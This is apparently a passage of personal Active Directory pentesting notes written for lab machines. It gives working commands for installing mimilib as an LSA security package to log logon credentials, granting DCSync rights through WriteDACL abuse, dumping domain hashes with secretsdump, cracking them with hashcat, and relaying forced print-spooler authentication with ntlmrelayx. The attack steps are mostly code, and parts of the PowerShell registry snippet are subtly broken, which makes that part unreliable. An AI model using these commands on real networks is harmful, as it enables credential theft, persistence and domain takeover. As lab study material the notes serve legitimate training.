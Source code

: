 ```bash
# Drop it in System32 and add it to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security
$packages: Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $package
# Now we can have the login logs in `C:\Windows\System32\kiwissp.log`
```

## DACLs/ACLs:
`acl-pwn`
- Resource = https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse
- We can abuse the DACLs/ACLs to pwn the Active Directory Network
- `WriteDACL`
- Can lead to DCSync Attack
- Import `PowerView.ps1`
- Use the commands mentioned in `Abuse Info` of `WriteDACL` in `BloodHound`
```powershell
$pass = convertto-securestring "PASSWORD OF USER THAT HAS WRITE DACL PERMS" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('"DOMAIN"\"PASSWORD OF USER THAT HAS WRITE DACL PERMS"', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity "DOMAIN BUT IN LDAP FORMAT (DC=htb, DC=local)" -PrincipalIdentity "USERNAME" -Rights DCSync
```
- Then we can use `secretsdump.py` to dump everything
```bash
secretsdump.py "DOMAIN"/"USERNAME":"PASSWORD"@"IP ADDRESS"
```
- We can then use these hashes to see if we pwn any user using `crackmapexec`
- If pwned we can use them with `psexec.py` to get a shell
- We can also try to crack teh hases using `hashcat`
```bash
hashcat -m 1000 hashes ~/Desktop/rockyou.txt -r InsidePro-PasswordsPro.rule
```

## Finding Printers:
- We can use this to find printers
```bash
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
# or
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
```

## SpoolSample to exploit Authentication Relays:
- If we have these conditions fullfiled we can do a authentication relay
```
1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.
```
- We can use `sppolsample.exe` to force THMSERVER2 to authenticate and then use `ntlmrelayx.py` to relay the authentication to THMSERVER1
- We need to use the IP of THMSERVER1
```bash
impacket-ntlmrelayx -smb2support -t smb://10.200.83.201 -debug
```
